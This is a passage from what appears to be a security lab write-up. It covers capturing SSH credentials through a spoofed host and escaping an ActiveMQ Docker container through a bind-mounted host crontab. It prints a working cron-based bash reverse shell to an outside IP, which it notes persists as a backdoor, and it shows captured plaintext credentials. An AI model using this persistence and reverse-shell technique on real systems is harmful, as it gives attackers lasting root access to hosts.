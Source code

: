     ![image-20250422181639969](https://i.imgur.com/WFgLPAX.png)

  - If client blindly accepts the fingerprint and writes the password, it's going to be caught.

    - Captured credentials in plain `ubuntu:kingdom-pass`.
    - We can use them to directly SSH to `kingdom`

    ![image-20250422033004415](https://i.imgur.com/yElUJlz.png)

- Note that fingerprint validation is going to fail with an error if the client connected to kingdom before and registered it in known hosts. This is an additional security feature in SSH to prevent this type of attacks.

## Task 4 - Privilege Escalation

- So far, we only had access to the root user **inside the docker container**, but no access to the docker host. This already gives many exploitation opportunities!

- Let's make a more interesting scenario for container escape. Re-run the container as:

  ```bash
  docker run -d --name activemq --user 0 -v /etc/crontab:/host/crontab ktxcx/activemq:5.16.0
  ```

- Instead of `--network host`, a volume was created mapping the `crontab` file of host to the container at `/host/crontab`.

  - An admin may bind-mount volumes for multiple reasons (preserving data, debugging, etc.), some even do `-v /:/mnt/host` which introduces much more security issues.
  - Exploitation targets that should not be bind-mounted include `crontab` files, docker socket `/var/run/docker.so`, binaries with `setuid` bit, `/etc/passwd` file, and `~/.ssh` directory.

- After executing the same metasploit module above and getting container access, attacker may gather info about mounted file systems (e.g., from the output of `mount` command)

  ![image-20250422042522898](https://i.imgur.com/iNLyj6a.png)
  
- Exploit command

  ```bash
  echo "* * * * * root bash -c 'bash -i >& /dev/tcp/192.168.122.1/4444 0>&1'" >> /host/crontab
  ```

- This will schedule a cron job at every minute to try connecting to a reverse shell (listener to be run on attacker), effectively escaping the container and giving **root access to the docker host**.

  ![image-20250421072036287](https://i.imgur.com/tmarKYX.png)

## Bonus

1. ARP Spoofing is done in task 3 with `dsniff` as shown above.
1. The cron job created in task 4 persists across reboots, meaning that even if the ActiveMQ vulnerability was patched, the system will periodically try to connect to our reverse shell (i.e., it serves as a backdoor).
